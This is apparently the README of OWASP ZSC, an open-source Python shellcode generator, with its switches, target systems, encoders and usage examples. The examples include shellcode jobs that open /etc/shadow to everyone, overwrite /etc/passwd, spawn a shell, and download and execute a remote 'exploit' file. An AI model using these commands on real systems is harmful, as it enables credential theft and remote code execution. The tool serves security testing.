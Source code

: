 OWASP ZSC
=========

OWASP ZCR Shellcoder is an open source software in python language which lets you 
generate customized  shellcodes for listed operation systems. This software 
can be run on Windows/Linux&Unix/OSX and others OS under python [2.x and 3.x compatible].

 * OWASP Page: https://www.owasp.org/index.php/OWASP_ZSC_Tool_Project
 * Home: http://zsc.z3r0d4y.com/
 * Features: http://zsc.z3r0d4y.com/table.html
 * Github: https://github.com/Ali-Razmjoo/OWASP-ZSC
 * Archive: https://github.com/Ali-Razmjoo/ZCR-Shellcoder-Archive
 * About Author: http://www.z3r0d4y.com/p/about.html
 * Mailing List: https://lists.owasp.org/mailman/listinfo/owasp-zsc-tool-project

![screenshot](http://zsc.z3r0d4y.com/images/Snapshot_2015-07-26_191951.png)

For more information read the document files in main directory or visit home page.


Usages And Examples
-------------------

python zsc.py -h
----------------


-h, --h, -help, --help => to see this help guide
-os => choose your os to create shellcode
-oslist	=> list os for switch -os
-o => output filename
-job => what shellcode gonna do for you ?
-joblist => list of -job switch
-encode => generate shellcode with encode
-types => types of encode for -encode switch
-wizard => wizard mod

-update => check for update
-about => about software and developers.



python zsc.py -wizard
---------------------

You can run `-wizard` to generate shellcode in easy way!

python zsc.py -oslist
----------------------------

 * [+] linux_x86
 * [+] linux_x64
 * [+] linux_arm
 * [+] linux_mips
 * [+] freebsd_x86
 * [+] freebsd_x64
 * [+] windows_x86
 * [+] windows_x64
 * [+] osx
 * [+] solaris_x86
 * [+] solaris_x64


python zsc.py -joblist
-----------------------------

 * [+] exec('/path/file')
 * [+] chmod('/path/file','permission number')
 * [+] write('/path/file','text to write')
 * [+] file_create('/path/file','text to write')
 * [+] dir_create('/path/folder')
 * [+] download('url','filename')
 * [+] download_execute('url','filename','command to execute')
 * [+] system('command to execute')
 * [+] script_executor('name of script','path and name of your script in your pc','execute command')

python zsc.py -types
---------------------------

 * [+] none
 * [+] xor_random
 * [+] xor_yourvalue
 * [+] add_random
 * [+] add_yourvalue
 * [+] sub_random
 * [+] sub_yourvalue
 * [+] inc
 * [+] inc_timesyouwant
 * [+] dec
 * [+] dec_timesyouwant
 * [+] mix_all

 
Generating shellcodes , using functions
----------------------------------------

`python zsc.py -os linux_x86 -encode none -job "chmod('/etc/shadow','777')" -o file.txt`

`python zsc.py -os linux_x86 -encode xor_random -job "write('/etc/passwd','user:pass')" -o file.txt`

`python zsc.py -os linux_x86 -encode xor_0x41414141 -job "exec('/bin/bash')" -o file.txt`

`python zsc.py -os linux_x86 -encode sub_0x4f442c4d -job "system('ls')" -o file.txt`

`python zsc.py -os linux_x86 -encode inc -job "system('ls[space]-la')" -o file.txt`

`python zsc.py -os linux_x86 -encode dec_10 -job "system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file')" -o file.txt`

`python zsc.py -os linux_x86 -encode add_random -job "file_create('/root/Desktop/hello.txt','hello')" -o file.txt`

`python zsc.py -os linux_x86 -encode dec_2 -job "file_create('/root/Desktop/hello2.txt','hello[space]world[space]!')" -o file.txt`

`python zsc.py -os linux_x86 -encode mix_all -job "dir_create('/root/Desktop/mydirectory')" -o file.txt`

`python zsc.py -os linux_x86 -encode add_0x457f9f3d -job "download('http://www.z3r0d4y.com/exploit.type','myfile.type')" -o file.txt`

`python zsc.py -os linux_x86 -encode mix_all -job "download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type')" -o file.txt`

Note: exec() doesn't support any ARGV same as `exec('/bin/bash -c ls')` or `exec('/bin/bash','-c','ls')`, you have to use `system()` function.

Note: Remember don't use `" "` and replace it with `"[space]"`
